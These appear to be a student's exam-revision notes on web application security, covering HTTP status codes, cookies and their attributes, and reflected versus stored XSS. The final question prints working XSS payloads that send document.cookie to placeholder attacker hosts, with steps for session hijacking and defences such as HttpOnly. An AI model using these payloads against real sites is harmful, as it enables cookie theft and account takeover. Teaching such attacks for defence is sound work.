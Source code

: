 # Web Application Security Theory

Notes for our upcoming theory exam - here, I have centralized all the past paper and mock questions we have been given, to be studied. Each topic is under a H2 Header.<br>
Under each question, there is a **Answer** and **Bullets** dropdown. The Bullets dropdown is essentially the answer but condensed.

## Past Paper 1

### 1. As web server responses are received by the web browser, they will include a status code to signal what type of response it is. HTTP response codes are grouped into five families that provide similar type of status codes. Provide the **numeric code grouping** of these families with a short description of what they represent.

<details>
  <summary>Answer</summary>
  
  HTTP response status codes are grouped into five categories based on their first digit:
  
  1. **1xx (Informational)**: These status codes indicate that the request was received and understood. They are provisional responses, informing the client that the server has received the request and is processing it. Examples include 100 (Continue) and 101 (Switching Protocols).
  
  2. **2xx (Success)**: These status codes confirm that the client's request was successfully received, understood, and processed. The most common is 200 (OK), but others include 201 (Created), 204 (No Content), and 206 (Partial Content).
  
  3. **3xx (Redirection)**: These status codes inform the client that further action is needed to complete the request, typically involving redirection to another resource. Examples include 301 (Moved Permanently), 302 (Found), 304 (Not Modified), and 307 (Temporary Redirect).
  
  4. **4xx (Client Error)**: These status codes indicate that the client has made an error in their request. Common examples include 400 (Bad Request), 401 (Unauthorized), 403 (Forbidden), 404 (Not Found), and 429 (Too Many Requests).
  
  5. **5xx (Server Error)**: These status codes signal that the server failed to fulfill a valid request due to an error on the server side. Examples include 500 (Internal Server Error), 502 (Bad Gateway), 503 (Service Unavailable), and 504 (Gateway Timeout).
  
  Understanding these status code families is essential for diagnosing issues in web applications and implementing proper error handling.
</details>

<details>
  <summary>Bullets</summary>
  
  * **1xx (Informational)** - Request received, continuing process
  * **2xx (Success)** - Request successfully received, understood, accepted
  * **3xx (Redirection)** - Further action needed to complete request
  * **4xx (Client Error)** - Request contains errors or cannot be fulfilled
  * **5xx (Server Error)** - Server failed to fulfill valid request
</details>

### 2. **Cookies** are a key part of the HTTP protocol that most web applications rely on. Describe in detail the application and function of cookies in web applications.

<details>
  <summary>Answer</summary>
  
  Cookies are small pieces of data stored on the client's device by the web browser when visiting websites. They function as a state management mechanism for the otherwise stateless HTTP protocol. When a server sends a response to a client, it can include a Set-Cookie header, instructing the browser to store this cookie. On subsequent requests to the same domain, the browser automatically sends back all relevant cookies in the Cookie header.
  
  The primary applications and functions of cookies include:
  
  **Session Management**: Cookies enable servers to recognize users across multiple requests, maintaining session state. Without cookies, users would need to authenticate with every request. Session cookies store session identifiers that link to session data stored on the server.
  
  **Personalization**: Cookies allow websites to remember user preferences, settings, and customizations. This improves user experience by maintaining personalized interfaces or content between visits.
  
  **Tracking and Analytics**: Cookies help website owners gather insights about user behavior, navigation patterns, and site usage. This information is valuable for improving website design and functionality.
  
  **Authentication**: Cookies facilitate "remember me" functionality, allowing users to stay logged in between browser sessions without re-entering credentials.
  
  **Shopping Carts**: E-commerce sites use cookies to maintain shopping cart contents as users navigate through the site.
  
  Cookies have various lifespans: session cookies exist only until the browser is closed, while persistent cookies remain for a specified period. They also have scope limitations through the Domain and Path attributes, restricting where cookies are sent. Modern web security practices include additional protections like the Secure flag (HTTPS only) and HttpOnly flag (inaccessible to JavaScript) to mitigate various attacks.
</details>

<details>
  <summary>Bullets</summary>
  
  * **State management** for stateless HTTP protocol
  * **Session tracking** - maintains user identity across requests
  * **Authentication** - remembers login state
  * **Personalization** - stores user preferences
  * **Shopping carts** - remembers selected items
  * **Analytics** - tracks user behavior and patterns
  * **Created via** Set-Cookie header, sent via Cookie header
  * **Two types**: session cookies (temporary) and persistent cookies (with expiration)
</details>

### 3. In addition to the cookie's actual value, the **Set-Cookie** header can include optional attributes, which can be used to control how the browser handles the cookie. List and explain the purpose each of these optional attributes.

<details>
  <summary>Answer</summary>
  
  The Set-Cookie header supports several optional attributes that control cookie behavior:
  
  **Expires/Max-Age**: Determines the cookie's lifespan. Expires specifies an exact date/time when the cookie should expire, while Max-Age indicates the number of seconds until expiration. Without either attribute, the cookie becomes a session cookie that is deleted when the browser closes.
  
  **Domain**: Specifies which domains can receive the cookie. If omitted, the cookie applies only to the originating domain (excluding subdomains). When specified, the cookie is sent to the specified domain and all its subdomains.
  
  **Path**: Restricts the cookie to specific paths within the domain. If set to "/admin", the cookie is only sent for requests to paths starting with "/admin". The default is "/", which applies to the entire domain.
  
  **Secure**: When present, this flag ensures the cookie is only transmitted over secure (HTTPS) connections, protecting it from interception over insecure channels.
  
  **HttpOnly**: Prevents client-side scripts (JavaScript) from accessing the cookie, mitigating the risk of cross-site scripting (XSS) attacks that attempt to steal cookies.
  
  **SameSite**: Controls whether cookies are sent with cross-site requests, helping protect against cross-site request forgery (CSRF) attacks. Three possible values: Strict (cookies sent only to same site), Lax (cookies sent with GET requests and navigation to the origin site), and None (cookies sent in all contexts, requires Secure attribute).
  
  **Priority** (Chrome only): Suggests relative importance of the cookie (Low, Medium, High) when the browser needs to evict cookies due to storage limits.
  
  **Partitioned** (emerging standard): Creates "partitioned" cookies that are tied to the top-level site being visited, enhancing privacy by preventing cross-site tracking.
</details>

<details>
  <summary>Bullets</summary>
  
  * **Expires/Max-Age** - sets cookie lifetime
  * **Domain** - controls which domains receive cookie
  * **Path** - limits cookie to specific URL paths
  * **Secure** - restricts to HTTPS connections only
  * **HttpOnly** - prevents JavaScript access
  * **SameSite** - controls cross-site sending (Strict/Lax/None)
  * **Priority** - suggests importance when storage limited (Chrome)
  * **Partitioned** - isolates cookies to top-level site context
</details>

## Past Paper 2

### 1. Discuss the gradual shift in focus from **server-side** to **client-side** attacks in recent years. Your answer should include an explanation of the similarities and differences in attacks as well as reason(s) for this change.

<details>
  <summary>Answer</summary>
  
  The cybersecurity landscape has witnessed a notable shift from predominantly server-side attacks to an increased focus on client-side attacks. This evolution reflects changes in web application architecture and security practices.
  
  **Similarities**:
  Both attack vectors ultimately aim to compromise applications and their data. Both exploit vulnerabilities in code or configuration. Both can lead to data breaches, unauthorized access, and system compromise. Additionally, both attack types often leverage input validation failures and can be mitigated through proper security controls.
  
  **Differences**:
  Server-side attacks (like SQL injection and command injection) target application logic running on servers, often seeking direct database access or system-level compromise. They typically focus on back-end technologies and languages (PHP, Java, etc.).
  
  Client-side attacks (like XSS, CSRF, and DOM-based vulnerabilities) execute in the user's browser, targeting front-end code. They often aim to steal sensitive information from users, hijack sessions, or manipulate the user interface. These attacks are more user-focused and occur in the victim's browser context.
  
  **Reasons for the shift**:
  
  1. **Improved server-side security**: Organizations have implemented better server-side security practices, including parameterized queries, WAFs, and code analysis tools, making these attacks more difficult.
  
  2. **Rise of modern web applications**: Modern applications rely heavily on JavaScript frameworks (React, Angular, Vue) that process more logic client-side, expanding the attack surface in browsers.
  
  3. **API-driven architecture**: The shift to microservices and API-based architectures places more functionality in client-side code that consumes these APIs.
  
  4. **Rich user interfaces**: Today's web applications have complex front-ends with extensive client-side processing, creating more potential vulnerabilities.
  
  5. **Browser as a platform**: The browser has evolved into an application platform with powerful capabilities that attackers can abuse when compromised.
  
  This shift requires security professionals to expand their focus to include client-side security controls alongside traditional server-side protections.
</details>

<details>
  <summary>Bullets</summary>
  
  * **Similarities**
    * Both target code vulnerabilities
    * Both seek unauthorized data/function access
    * Both exploit input validation flaws
  
  * **Differences**
    * Server-side: targets back-end, direct DB access
    * Client-side: executes in browser, targets users
    * Different attack techniques and payloads
  
  * **Reasons for shift**
    * Better server-side security implementation
    * JavaScript framework proliferation
    * API-driven architectures
    * Richer client-side functionality
    * Browser as application platform
    * Single-page application growth
</details>

### 2. Explain the difference between a **reflected** and a **stored cross-site scripting** attack. The answer should outline each type of attack.

<details>
  <summary>Answer</summary>
  
  Cross-site scripting (XSS) attacks involve injecting malicious scripts into web pages viewed by other users. The two primary types—reflected and stored XSS—differ in how the malicious payload is delivered and persisted.
  
  **Reflected XSS**:
  
  In a reflected XSS attack, the malicious script is embedded in a request (typically in URL parameters) and "reflected" back in the server's immediate response. This attack is non-persistent, meaning the payload isn't stored on the server and must be delivered to victims through external means.
  
  The attack flow typically involves:
  1. The attacker crafts a URL containing malicious JavaScript code
  2. The victim is tricked into clicking the link (via email, social media, etc.)
  3. The victim's browser sends the request containing the payload to the vulnerable website
  4. The server includes the unvalidated, unescaped input in its response
  5. The victim's browser executes the script in the context of the vulnerable site
  
  Since reflected XSS requires victim interaction with the crafted URL, it often involves social engineering. The impact is limited to users who click the malicious link.
  
  **Stored XSS**:
  
  In stored (or persistent) XSS attacks, the malicious script is submitted to and permanently stored on the target server, usually in a database. The payload is then served to victims whenever they access the affected page.
  
  The attack flow typically involves:
  1. The attacker submits malicious script through a form that stores data (comments, user profiles, etc.)
  2. The server stores the malicious payload in its database
  3. When any user views the page containing the stored payload, their browser executes the script
  
  Stored XSS is generally more dangerous because:
  - It affects all users who view the compromised content
  - It doesn't require social engineering to deliver the payload
  - It persists until administratively removed from the server
  - It may affect users with elevated privileges who access the affected area
  
  Both types require proper input validation, output encoding, and Content Security Policy implementation as defenses.
</details>

<details>
  <summary>Bullets</summary>
  
  * **Reflected XSS**
    * Non-persistent, payload in request, reflected in response
    * Delivered via crafted URLs (email, messages)
    * Requires victim to click malicious link
    * One-time execution per victim interaction
    * Typically exploits input parameter handling
  
  * **Stored XSS**
    * Persistent, payload stored on server (database)
    * Delivered automatically when affected page loaded
    * No user interaction needed beyond visiting page
    * Affects all users accessing infected content
    * Typically exploits content storage features
</details>

### 3. How can a hacker exploit a **XSS vulnerability** to steal session cookies? Provide a suitable payload and explain, step-by-step, how a hacker obtains the cookie of the victim. You may use a diagram to illustrate the steps involved.

<details>
  <summary>Answer</summary>
  
  A cross-site scripting (XSS) vulnerability can be leveraged to steal session cookies when those cookies aren't properly protected. Here's how the attack works:
  
  **Suitable Payload Example**:
  ```javascript
  <script>
  fetch('https://attacker-server.com/steal?cookie='+document.cookie);
  </script>
  ```
  
  Alternative payload using image:
  ```javascript
  <script>
  var img = new Image();
  img.src = 'https://attacker-server.com/steal?cookie='+encodeURIComponent(document.cookie);
  </script>
  ```
  
  **Step-by-Step Process**:
  
  1. **Vulnerability Identification**: The attacker identifies a website vulnerable to XSS, where user input is rendered without proper sanitization.
  
  2. **Payload Injection**: The attacker injects the malicious script into the vulnerable point. This could be through:
     - A comment section (stored XSS)
     - A search field (reflected XSS)
     - A URL parameter (reflected XSS)
  
  3. **Preparation of Collection Server**: The attacker sets up a server (attacker-server.com in the example) configured to receive and log incoming requests, particularly focusing on the query parameters.
  
  4. **Victim Interaction**: 
     - For stored XSS: The victim simply visits the compromised page where the script is stored
     - For reflected XSS: The victim must be tricked into clicking a malicious link
  
  5. **Script Execution**: When the victim loads the page containing the malicious script, their browser executes the JavaScript in the context of the vulnerable website.
  
  6. **Cookie Exfiltration**: The script accesses the document.cookie property (which contains cookies accessible to JavaScript) and sends this data to the attacker's server.
  
  7. **Cookie Collection**: The attacker's server receives and logs the victim's cookies.
  
  8. **Session Hijacking**: The attacker can now use these stolen cookies to impersonate the victim by inserting them into their own browser, effectively hijacking the victim's session.
  
  This attack is particularly effective against sessions that rely solely on cookies for authentication without additional security controls. It can be prevented by using the HttpOnly flag on cookies containing sensitive information, which makes them inaccessible to JavaScript.
</details>

<details>
  <summary>Bullets</summary>
  
  * **Attack Payload**:
    * `<script>fetch('https://attacker.com/steal?c='+document.cookie);</script>`
  
  * **Attack Flow**:
    * Attacker finds XSS vulnerability
    * Attacker sets up collection server
    * Attacker injects cookie-stealing script
    * Victim loads compromised page
    * Script executes in victim's browser context
    * Cookie sent to attacker's server
    * Attacker uses cookie to hijack session
  
  * **Prevention**:
    * HttpOnly flag on sensitive cookies
    * Content-Security-Policy implementation
    * Input validation and output encoding
    * XSS auditing and sanitization
</details>
